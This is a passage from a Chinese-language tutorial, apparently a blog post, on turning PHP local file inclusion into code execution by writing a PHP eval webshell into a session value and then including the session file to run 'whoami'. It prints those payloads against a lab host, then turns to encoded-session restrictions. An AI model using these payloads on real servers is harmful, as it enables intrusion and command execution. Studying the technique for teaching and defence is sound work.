 分析session.php可以看到用户会话信息username的值用户是可控的，因为服务器没有对该部分作出限制。那么我们就可以传入恶意代码就行攻击利用

payload

```
http://192.33.6.145/FI/session/session.php

POST
username=&lt;?php eval($_REQUEST[Qftm]);?&gt;

```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014a62bc8d3baad0cb.png)

可以看到有会话产生，同时我们也已经写入了我们的恶意代码。

既然已经写入了恶意代码，下来就要利用文件包含漏洞去包含这个恶意代码，执行我们想要的结果。借助上一步产生的sessionID进行包含利用构造相应的payload。

payload

```
PHPSESSID：7qefqgu07pluu38m45isiesq3s

index.php?file=/var/lib/php/sessions/sess_7qefqgu07pluu38m45isiesq3s

POST
Qftm=system('whoami');
```

[![](https://p1.ssl.qhimg.com/t0183a02840cfb6b253.png)](https://p1.ssl.qhimg.com/t0183a02840cfb6b253.png)

从攻击结果可以看到我们的payload和恶意代码确实都已经正常解析和执行。

### <a class="reference-link" name="%E5%8C%85%E5%90%AB%E9%99%90%E5%88%B6"></a>包含限制

在上面我们所介绍的只是一种简单的理想化的漏洞条件，所以你会看到这么简单就利用成功了，但是，事实上在平常我们所遇到的会有很多限制，比如说代码中对用户会话信息做了一定的处理然后才进行存储，这些处理操作常见的包括对用户session信息进行编码或加密等。另外常见的限制比如说服务器代码中没有出现代码`session_start();`进行会话的初始化操作，这个时候服务器就无法生成用户session文件，攻击者也就没有办法就进行恶意session文件的包含。

下面主要针对这几种session包含限制，利用系统服务或代码本身的缺陷进行探索与利用。



## Session Base64Encode

很多时候服务器上存储的Session信息都是经过处理的（编码或加密），这个时候假如我们利用本地文件包含漏洞直接包含恶意session的时候是没有效果的。那么该怎么去绕过这个限制呢，一般做法是逆过程，既然他选择了编码或加密，我们就可以尝试着利用解码或解密的手段还原真实session，然后再去包含，这个时候就能够将恶意的session信息包含利用成功。

很多时候服务器上的session信息会由base64编码之后再进行存储，那么假如存在本地文件包含漏洞的时候该怎么去利用绕过呢？下面通过一个案例进行讲解与利用。

### <a class="reference-link" name="%E6%B5%8B%E8%AF%95%E4%BB%A3%E7%A0%81"></a>测试代码

**session.php**
